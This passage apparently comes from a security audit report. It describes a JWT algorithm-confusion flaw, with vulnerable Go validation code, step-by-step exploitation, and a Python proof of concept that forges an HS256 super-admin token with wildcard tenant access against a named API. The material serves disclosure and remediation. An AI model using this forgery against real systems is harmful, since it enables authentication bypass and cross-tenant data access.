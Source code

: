 ### CVE-4: JWT Algorithm Confusion Attack (CVSS 8.1)

**Technical Description:**
The JWT token validation allows algorithm confusion attacks where RSA-signed tokens can be verified using HMAC with the public key, enabling token forgery and privilege escalation.

**Root Cause Analysis:**
```go
// Vulnerable JWT validation
func ValidateJWT(tokenString string) (*jwt.Token, error) {
    token, err := jwt.Parse(tokenString, func(token *jwt.Token) (interface{}, error) {
        // VULNERABILITY: No algorithm validation
        return publicKey, nil  // Same key used for all algorithms
    })
    return token, err
}
```

**Exploitation Vector:**
1. Obtain valid JWT token from normal authentication
2. Extract public key from application configuration
3. Create forged token using HMAC with public key as secret
4. Set algorithm to "HS256" instead of "RS256"
5. Include elevated privileges in token payload

**Proof of Concept:**
```python
import jwt
import requests

# Step 1: Get public key from application
response = requests.get('https://api.isectech.com/.well-known/jwks.json')
public_key = extract_public_key(response.json())

# Step 2: Create forged token with elevated privileges
payload = {
    'user_id': 'attacker_123',
    'tenant_id': '*',  # Wildcard tenant access
    'role': 'super_admin',
    'exp': int(time.time()) + 86400  # 24 hours
}

# Step 3: Sign with HMAC using public key (algorithm confusion)
forged_token = jwt.encode(payload, public_key, algorithm='HS256')

# Step 4: Use forged token for privileged access
headers = {'Authorization': f'Bearer {forged_token}'}
response = requests.get('https://api.isectech.com/admin/users', headers=headers)
```

**Technical Impact:**
- Super administrator privilege escalation
- Cross-tenant access through wildcard manipulation  
- 24-hour persistent access capability
- Complete authentication bypass
